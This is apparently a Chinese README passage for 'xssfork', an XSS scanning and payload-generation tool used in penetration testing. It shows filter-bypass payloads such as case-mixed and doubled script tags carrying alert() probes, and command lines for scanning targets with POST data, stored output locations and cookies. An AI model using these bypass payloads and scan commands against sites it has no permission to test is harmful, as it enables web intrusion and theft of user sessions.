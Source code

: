 ![](http://ohsqlm7gj.bkt.clouddn.com/17-7-24/26774362.jpg)

### 16hex_encode
将html标签内部字符16进制化
### uppercase
随机大小写
将
&lt;script&gt;alert(65534);&lt;/script&gt;
转换成
&lt;ScRIPt&gt;alert(65534);&lt;/ScRIpT&gt;
### addkeywords
主要是应对过滤为replace('keyword&gt;s','')的情况  
&lt;script&gt;alert(65534);&lt;/script&gt;
变成
&lt;&lt;script&gt;script&gt;alert(65534);&lt;/script&gt;
当然默认开启的是轻量模式，即只返回一个payload，开启重量模式，可以生成更加丰富的pyaload，效果如下
&lt;script&gt;alert(65534);&lt;/script&gt;  
&lt;script&gt;alert(65534);&lt;/ScrIpt&gt;  
&lt;ScrIpt&gt;alert(65534);&lt;/sCrIpt&gt;  
&lt;scRiPt&gt;alert(65534);&lt;/script&gt;  
&lt;ScrIpt&gt;alert(65534);&lt;/script&gt;
## 演示
场景1.反射型xss  
![](http://shentoushi.top/manypic/Uploads/2016-09-26/%E5%8F%8D%E5%B0%84%E5%9E%8Bxss.gif)  
场景2.大小写绕过  
![](http://shentoushi.top/manypic/Uploads/2016-09-26/%E5%A4%A7%E5%B0%8F%E5%86%99%E7%BB%95%E8%BF%871%20xss.gif)
![](http://shentoushi.top/manypic/Uploads/2016-09-26/%E5%A4%A7%E5%B0%8F%E5%86%99%E7%BB%95%E8%BF%872%20xss.gif)  
场景3.dom型xss  
![](http://shentoushi.top/manypic/Uploads/2016-09-26/dom%20xss1.gif)
![](http://shentoushi.top/manypic/Uploads/2016-09-26/dom%20xss2.gif)
场景3.post类型
![](http://shentoushi.top/manypic/Uploads/2016-09-26/post%20xss1.gif)
场景4.需要验证cookie
![](http://shentoushi.top/manypic/Uploads/2016-09-26/cookie%20xss.gif)


![](http://ohsqlm7gj.bkt.clouddn.com/2017-07-24%20at%20%E4%B8%8B%E5%8D%884.23.gif)
![](http://ohsqlm7gj.bkt.clouddn.com/2017-07-24%20at%20%E4%B8%8B%E5%8D%884.27.gif)
 post类型  
 python xssfork.py -u "xx" -d "xx"
 存储型  
 python xssfork.py -u "xx" -d "xxx" -D "输出位置"
 带cookie
 python xssfork.py -u "xx" -c "xx"
## 说明
开源只为分享，请勿将本脚本做任何商业性质的集成。开发的时候，有可能很多情况没有考虑到，如果你有更好的建议或者发现bug，可以联系我邮箱,xssfork.codersec.net网站还在建设中,github不要吝啬你的star。
root@codersec.net  
开源地址 https://github.com/bsmali4/xssfork
记得不要吝啬你的star


